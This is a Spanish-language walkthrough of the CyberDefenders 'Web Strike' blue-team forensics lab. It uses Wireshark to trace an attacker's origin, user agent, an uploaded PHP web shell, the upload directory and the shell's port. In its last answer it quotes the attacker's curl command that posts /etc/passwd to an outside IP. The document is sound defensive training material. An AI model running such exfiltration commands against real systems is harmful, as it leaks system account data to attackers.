

En este desafío tendremos que realizar una análisis forense de redes con wireshark para obtener informacion sobre el atacante, archivos, origen, comandos.


- Link [Web Strike Blue Team Lab](https://cyberdefenders.org/blueteam-ctf-challenges/149#nav-questions)
- By: [CyberDefenders](https://cyberdefenders.org/)

# Walkthrough
--- 

## Q1

Comprender el origen geográfico del ataque ayuda a tomar medidas de bloqueo geográfico y al análisis de inteligencia de amenazas. ¿De qué ciudad se originó el ataque?
   


Haciendo uso de [https://www.cual-es-mi-ip.net/geolocalizar-ip-mapa](https://www.cual-es-mi-ip.net/geolocalizar-ip-mapa) buscaremos la ip 117.11.88.124


 - Tianjin

## Q2
    
Conocer el agente de usuario del atacante ayuda a crear reglas de filtrado sólidas. ¿Cuál es el agente de usuario del atacante?


```
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

## Q3    

Necesitamos identificar si se explotaron vulnerabilidades potenciales. ¿Cuál es el nombre del shell web malicioso subido?

```
ip.src == 117.11.88.124 and http
```


## Q4

Conocer el directorio donde se almacenan los archivos cargados es importante para reforzar las defensas contra el acceso no autorizado. ¿Qué directorio utiliza el sitio web para almacenar los archivos cargados?

```php
http.request.uri contains "image.jpg.php"
```


```
/reviews/uploads/
```

## Q5

Identificar el puerto utilizado por el shell web ayuda a mejorar las configuraciones del firewall para bloquear el tráfico saliente no autorizado. ¿Qué puerto utilizó el shell web malicioso?


```
8080
```
## Q6

Comprender el valor de los datos comprometidos ayuda a priorizar las acciones de respuesta a incidentes. ¿Qué archivo intentaba exfiltrar el atacante?




```
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

Esta línea de comando en particular el atacante intenta enviar el contenido del archivo `/etc/passwd` como datos en una solicitud POST al servidor en la dirección IP `117.11.88.124` en el puerto `443`. El archivo `/etc/passwd` es un archivo de sistema en sistemas operativos basados en Unix/Linux que contiene información sobre cuentas de usuario.
¡VAMOS!
Happy hacking :).
